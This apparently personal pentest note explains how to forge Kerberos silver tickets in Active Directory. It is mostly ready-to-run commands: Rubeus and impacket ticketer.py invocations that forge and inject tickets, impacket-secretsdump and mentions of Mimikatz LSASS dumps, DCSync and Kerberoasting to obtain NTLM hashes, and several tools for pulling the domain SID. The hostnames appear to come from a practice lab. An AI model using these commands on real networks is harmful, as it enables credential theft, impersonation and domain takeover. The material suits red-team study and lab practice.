 ```yaml
---
sticker: emoji//1f39f-fe0f
---
```

we can forge a service ticket if we have:
- plain-text password or NTLM hash of a service account (secretdump -mimkatz LSASS dump - DCSync)
- Service Principal Name (SPN) of that service
- FQDN
- Domain SID (optional for some tools)

Tools:
1. rubeus
```powershell
rubeus.exe silver /service:MSSQLSvc/lol.local:1433 /rc4:<NTLM> /sid:<DOMAIN_SID> /user:Administrator /domain:<DOMAIN> /ptt
```

2. tickter.py
```shell
1-
python3 ticketer.py <TARGET (domain name)> -nthash <NTHASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -dc-ip 10.10.10.1 -spn cifs/test.local -user Administrator

2-
export KRB5CCNAME=./Administrator.ccache

#then confirm that it's there
klist

3-
impacket-mssqlclient -windows-auth -k north.sevenkingdoms.local/jon.snow@castelblack.north.sevenkingdoms.local -no-pass

```



> [!NOTE] NOTE
> this whole tickets forging thing will be useless IF the service did a PAC validation which is rare. Any service that runs inside services.msc will not use PAC validation. 

---

### getting `NTLM` hash or the plain password:

 1. using impacket-secretdump (has to be domain admin account) 
 ```shell
 impacket-secretsdump 'north.sevenkingdoms.local/vagrant:vagrant@192.168.56.11'
```
 
 2.  mimkatz LSASS dump
 3. DCSync attack 
 4. Kerberoast > Crack > NTLM
 ```shell
 # this will get us the NTLM hash
 echo -n 'Password123!' | iconv -f utf-8 -t utf-16le | openssl dgst -md4 
```

---
### Getting Domain SID:
its basically the first part of any SID object.
```powershell
nxc:
nxc ldap lol.local -u sqlsvc -p test -k --get-sid

ldapsearch:
ldapsearch -x -H ldap://<DC_IP> -b "" -s base objectSid

impacket-GetADUsers:
impacket-GetADUsers domain/user:password@<DC_IP> -all

rpcclient:
rpcclient $> lookupdomain north.sevenkingdoms.local
```

